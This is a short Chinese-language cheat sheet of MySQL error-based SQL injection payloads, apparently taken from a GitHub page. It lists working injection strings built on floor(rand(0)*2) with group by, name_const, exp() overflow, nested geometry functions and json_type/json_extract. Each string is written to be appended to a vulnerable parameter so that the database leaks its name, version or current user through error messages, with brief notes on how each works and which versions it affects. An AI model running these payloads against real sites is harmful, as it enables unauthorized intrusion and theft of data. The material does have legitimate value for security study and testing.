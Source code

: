 - `floor()`报错准确的说是`floor`,`count`,`group by`冲突报错,`count(*)`,`rand()`,`group by`三者缺一不可

- ```sql
  1'and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a)
  ```

- ```SQL
  floor():向下取整
  rand():在0-1产生一个随机数
  floor(rand()*2):对生成的0-2直接按的随机数进行向下取整,2条记录可能报错
  floor(rand(0)*2):记录需要为3条以上,且三条以上必报错
  count(*):统计记录条数,包括null值
  group by:对数据进行分组,存在则count(*)+1,不存在则在虚拟表中插入一条数据	
  ```

- 其它报错注入

- ```sql
  //name_const,支持mysql5.0不支持5.1
  //name_const(name,value),当用来产生一个结果集合时,name_const()促使该列时使用给定名称
  
  1'and (select * from (select name_const(version(),1),name_const(version(),1))a) --+
  ```

- ```sql
  //整型溢出exp,mysql低于5.5.5
  //exp是以e为底的指数函数,由于数字太大会溢出,该函数会在参数大于709是溢出,产生报错
  
  //只有mysql5.5.29才能正常显示
  1'and exp(~(select*from(select version())a)) --+
  ```

- ```sql
  //几何函数,高版本的mysql无法得到数据,目前只有mysql5.5.29和5.1.60能得到正确输出
  geometrycollection(),multpoint(),polygon(),multipolygon(),linestring(),multilinestring()
  
  1' and
  	(select multipoint(
  		(select * from
  			(select * from
  				(select * from
  					(select version())a
  					)b
  				)c
  			)
  		)
  	) -- qwe
  ```

- ```sql
  //json报错,获取json值的类型,当我们传入的值不属于json格式时则报错
  //json_type(version())
  1'and json_type(version())%23 --+
  
  //json_extract(json_doc,path[,path]) --+
  //从json_doc中读取数据,和path的参数匹配,第一个或第二个参数不是json格式就会报错
  1'and json_extract(user(),'$.a') --+
  1'and json_extract('[1,2,3]',user()) --+
  
  //json_arary_append(json_doc,path,val[,path,val]...),
  //将值附加到json文档中指定数组的末尾并返回结果
  //报错输出原理和 json_extract函数相同
  ```
  